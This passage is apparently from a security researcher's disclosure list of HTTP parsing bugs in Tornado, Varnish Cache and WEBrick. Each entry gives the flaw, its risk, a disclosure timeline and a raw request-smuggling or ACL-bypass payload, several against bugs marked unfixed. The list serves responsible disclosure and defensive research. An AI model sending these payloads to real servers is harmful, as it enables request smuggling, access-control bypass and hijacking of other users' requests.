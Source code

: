     - October 15, 2023: Remains unfixed.
5. REDACTED
  - Use case: Request smuggling
  - Requirements: REDACTED
  - Risk: High.
  - Payload: REDACTED
  - Timeline:
    - October 7, 2023: Reported via [GH security advisory](https://github.com/tornadoweb/tornado/security/advisories/GHSA-753j-mpmx-qq6g).
    - January 31, 2024: Remains unfixed.

### Varnish Cache
1. Whitespace characters are not stripped during HTTP/2 to HTTP/1.1 downgrades.
  - Use case: ???
  - Requirements: H2O is acting as a transducer to an HTTP/1.1 backend.
  - Risk: None
  - Payload: `PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00E\x01\x05\x00\x00\x00\x01\x00\n:authority\tlocalhost\x00\x05:path\x01/\x00\x07:method\x03GET\x00\x07:scheme\x04http\x00\x05test1\x03\ta\t`
  - Timeline:
    - July 7, 2023: Reported via [GH issue](https://github.com/varnishcache/varnish-cache/issues/3952).
    - August 22, 2023: Fixed in [commit](https://github.com/varnishcache/varnish-cache/commit/6af7d972d30371154d9b86943258905e58748ce5).

### WEBrick
1. Empty `Content-Length` values are interpreted as equivalent to `0`, and the first `Content-Length` header is prioritized over the second if there are multiple. The interaction of these two bugs allows for request smuggling past a proxy that forwards requests with two `Content-Length` headers, of which the first is empty.
  - Use case: Request smuggling
  - Requirements: A transducer that forwards empty `Content-Length` values before nonempty ones.
  - Risk: High. See HAProxy bug 1.
  - Payload: `GET / HTTP/1.1\r\nContent-Length: \r\nContent-Length: 43\r\n\r\nPOST /evil HTTP/1.1\r\nContent-Length: 18\r\n\r\nGET / HTTP/1.1\r\n\r\n`
  - Timeline:
    - August 14, 2023: Reported via [HackerOne](https://hackerone.com/reports/2110024).
    - August 14, 2023: HackerOne report rejected because WEBrick is out of scope for Ruby's program.
    - August 14, 2023: Reported via [GH issue](https://github.com/ruby/webrick/issues/119).
    - August 15, 2023: Fixed in [PR](https://github.com/ruby/webrick/pull/120).
2. Chunk-sizes are interpreted as their longest valid prefix.
  - Use case: Request smuggling
  - Requirements: A transducer that accepts and forwards `0x`-prefixed chunk-sizes.
  - Risk: High. See OpenBSD relayd bug 3, Pound bug 2, and Akamai bug 2.
  - Payload: `POST / HTTP/1.1\r\nTransfer-Encoding: chunked\r\n\r\n0x3a\r\n\r\nGET /evil HTTP/1.1\r\nContent-Length: 23\r\nE: vil\r\nEvil: \r\n\r\n0\r\n\r\nGET / HTTP/1.1\r\n\r\n`
  - Timeline:
    - November 9, 2023: Reported via [GH issue](https://github.com/ruby/webrick/issues/124).
    - January 31, 2024: Remains unfixed.
3. `\x00` is stripped from the ends of header values.
  - Use case: ACL bypass
  - Requirements: A transducer that forwards `\x00` in header values.
  - Risk: Medium. See HAProxy bug 2.
  - Payload: `GET / HTTP/1.1\r\nEvil: evil\x00\r\n\r\n`
  - Timeline:
    - November 30, 2023: Reported via [GH issue](https://github.com/ruby/webrick/issues/126).
    - January 31, 2024: Remains unfixed.
